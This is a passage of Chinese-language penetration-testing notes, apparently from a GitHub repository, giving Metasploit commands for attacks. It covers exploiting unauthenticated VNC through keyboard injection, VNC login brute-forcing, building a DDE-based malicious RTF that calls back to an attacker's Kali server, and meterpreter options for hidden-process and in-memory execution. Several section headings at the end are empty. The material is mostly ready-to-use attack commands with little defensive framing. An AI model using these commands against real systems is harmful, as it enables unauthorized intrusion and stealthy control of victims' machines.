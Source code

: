 ```
msf6>search macro
```
msf中也可以生成宏文件


#### VNC


VNC类似3389由工具生成服务端和客户端，常有未授权VNC可以利用（不太支持高版本）
```
msf6>search type:exploit vnc
```

设置键盘执行，使用vba cmdstager
```
msf6>use exploit/multi/vnc/vnc_keyboard_exec
msf6>set target 1
```
执行exploit（使用键盘输入）

VNC爆破可以尝试使用auxiliary/scanner/vnc/vnc_login

#### DDE


```
msf6>use exploit/windows/fileformat/office_dde_delivery
msf6>set srvhost (设置kali服务端)
msf6>set srvpost (设置kali服务端端口)
```
设置好靶机ip生成msf.rtf
利用安全设置提示攻击（隐藏回车位置右键更新域查看域代码）
ddeauto C:路径...exe

msf6>search fileformat查看文件格式 dde只是其中一种


#### 隐蔽执行


```
meterpreter>execute -h
meterpreter>execute -f notepad -a test.txt
meterpreter>execute -f notepad -a test.txt -H
```
-H hidden创建隐藏进程


备份到kali一个cmd.exe文件
```
meterpreter>execute -f /home/cmd.exe -m(指定内存运行) -d notepad
```
-i交互cmd

32位需要对应32位，64位需要对应64位


#### 流量劫持

#### 流量分析

#### Pivot

#### 域

#### adv











